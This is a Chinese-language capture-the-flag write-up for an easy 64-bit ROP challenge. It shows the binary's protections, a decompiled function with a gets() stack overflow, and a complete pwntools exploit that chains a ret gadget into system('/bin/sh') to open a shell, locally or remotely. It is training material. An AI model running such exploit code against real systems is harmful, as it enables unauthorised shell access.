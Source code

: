 # ROP链

- 作者：pn1fg
- 参考：
- 难度：Easy
- 分类：Pwn
- 暴露端口：70

# 题目描述

最简单的ROP链

# 题目解析

- 源码：[pwn.c](build/pwn.c)
- 考点：64位ROP链

由于出题目的时间跨度有点大，导致本题与上题`ret2text_64`题目重合，为表达歉意，我们就不更换题目了，这道题目赠送给各位同学们

这里和同学们简单分析一下

#### 查看文件信息

查看文件类型：

```shell
>>> file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9c5a0203058595c56d22e89b7c4b45869bb959de, for GNU/Linux 3.2.0, not stripped
```

64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX 保护

#### 分析漏洞成因

反编译`vuln`函数

```c
void sym.vuln(void)

{
    ulong s;

    sym.imp.system("echo You know the size of the input data?");
    sym.imp.gets(&s);
    return;
}
```

`gets`函数可以读入无限制长度的字符（直到换行`\n`），导致超出`s`长度，覆盖`rbp`，造成栈溢出

构造利用都与上题一致

#### 编写利用程序：

exp 也可以和上题共用，这里就演示一个

[exp.py](writeup/exp.py)

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

if args['REMOTE']:
    io = remote(IP,port)
else:
    io = process('./pwn')

elf = ELF("./pwn")
rop = ROP(elf)

rop.raw(cyclic(0x70 + 8))
rop.raw(rop.find_gadget(["ret"]))
rop.call(elf.sym["system"], [next(elf.search(b"/bin/sh"))])

payload = rop.chain()
io.sendlineafter(b'a?\n',payload)
io.interactive()
```
